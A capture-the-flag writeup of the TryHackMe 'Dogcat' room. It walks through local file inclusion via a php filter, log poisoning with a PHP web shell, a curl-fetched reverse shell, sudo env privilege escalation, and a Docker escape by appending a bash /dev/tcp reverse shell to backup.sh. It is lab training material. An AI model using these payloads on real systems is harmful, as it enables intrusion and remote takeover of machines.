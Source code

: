 ```yaml
---
layout: post
title: Dogcat
categories: [Tryhackme, Medium]
tags: [LFI, RCE, SUID]
image: https://i.ibb.co/0XX1s2Q/DogCat.png
---
```


Hello guys and welcome to yet another Tryhackme writeup. Today we will be handling a medium room which is accessible [here](https://tryhackme.com/room/dogcat).

Well the methodology is quite similar to the Archangel methodology with quite a twist. Let's begin.

## ACCESSING THE WEBPAGE

So I ran an NMAP scan but that was not so productive, so I went directly into the site. 

First we see that the site has two buttons which when we click on dog for example, we get a picture of a dog.
![](https://i.ibb.co/1K4zM53/dog.png)

Looking closely at our URL we see that it is using the view paramater. Well that is interesting. Let us try and traverse that, using the **php://filter/convert.base64-encode/resource=./dog/../index**. 

![](https://i.ibb.co/0mQn4pH/base64filter.png)

We can then see a base64 code on there. Let us decode it.

![](https://i.ibb.co/JH3p0rm/base64decode.png)

We get to see some php code which when we look closely at the filters we see that **ext** can be used to remove the .php which is automatically added at the end of the URL. 

## ACCESS LOGS

Let us use this parameter to view the access logs. 

![](https://i.ibb.co/gM1tmZP/accesslog.png)

Success! Next we are going to try and do some poisoning on the User-Agent using **<?php system($_GET['cmd']);?>**. 

If you are not familiar on how to do that check the Archangel writeup.  

Next let us try and run a command using **&cmd=whoami**

![](https://i.ibb.co/x12dj5X/whoami.png)

We can see that we are www-data.

## REVERSE SHELL
Now we are going to try and get a reverse shell. We can get one from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Make sure to make the necessary changes to the ip and port.

Next we are gonna run a python server on our machine using **python -m http.server 80**. Then run **&cmd= curl -o revshell.php ip/revshell.php**. 

Using wget was not so successfull. We then should check our python server for a 200 status code.
With that done we can run our listener on our machine and run **&cmd= php revshell.php**, then check back on our machine for a connection.

![](https://i.ibb.co/t2Fx0MG/revshell.png)

Smooth!

## ROOT
Next we are gonna run **sudo -l** which checks the SUID capabilities. 

![](https://i.ibb.co/LpBsvj2/sudo.png)

Well we see that www-data can run the command as root. So looking at [GTFO bins](https://gtfobins.github.io/) we can see that we can exploit this by using **sudo env /bin/sh**

And we are root. 
![](https://i.ibb.co/VV2LmmZ/root.png)

## ESCAPING DOCKER

This was not straight forward since we are supposed to look for the last flag outside the container. But it is not that hard.

As we are moving around we see a file backup.sh which sort of connects to the Host and the container. We can exploit this by running the following command.

**echo "bash -i >& /dev/tcp/ip/port 0>&1" >> backup.sh**

Then start up a listener on your machine and success we are in the host.

![](https://i.ibb.co/qDSmNyk/container.png)

## RESOURCES 

[BASH FOR BEGINNERS](https://www.tldp.org/LDP/Bash-Beginners-Guide/html/)
[PHP TRICKS](https://devansh.xyz/ctfs/2021/09/11/php-tricks.html)

Be sure to read the following articles for much better understanding. Happy hacking :)